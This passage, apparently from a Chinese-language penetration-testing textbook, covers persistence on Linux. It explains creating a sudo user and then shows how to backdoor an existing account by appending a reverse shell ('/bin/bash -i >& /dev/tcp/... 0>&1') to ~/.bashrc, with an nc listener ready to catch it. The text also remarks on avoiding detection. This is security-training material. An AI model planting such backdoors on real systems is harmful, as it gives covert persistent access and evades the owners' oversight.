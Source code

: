 +   `-m` ：创建主目录

+   `-s` ：将登录 shell 设置为`bash`

+   `usermod -aG` ：将用户添加到`sudo`组

+   `chpasswd` ：设置密码

让我们看看这个操作是如何进行的：

![图 12.4 – 添加具有完全 sudo 权限的新用户的过程](img/B22229_12_04.jpg)

图 12.4 – 添加具有完全 sudo 权限的新用户的过程

添加新用户是一个比较显眼的操作，可能会被注意到。如果你只是给现有用户添加一个后门 shell，则可能不容易被发现。接下来我们将探讨这种技术。

## 给 Bash shell 添加后门

`~/.bashrc` 文件会在每次打开新的交互式 Bash shell 时执行。我们可以在这里添加命令。

在继续之前，退出`bashdoor`的终端会话，以便返回到`user1`的提示符。接下来，在 Kali 终端中输入以下命令，确保你已经准备好接收反向 shell：

```
 $ nc -nlvp 5555
```

在`user1`的 shell 中，输入以下命令，并用你自己的 IP 地址和端口替换：

```
 $ echo "(/bin/bash -i >& /dev/tcp/192.168.56.101/5555 0>&1) &" >> ~/.bashrc
```
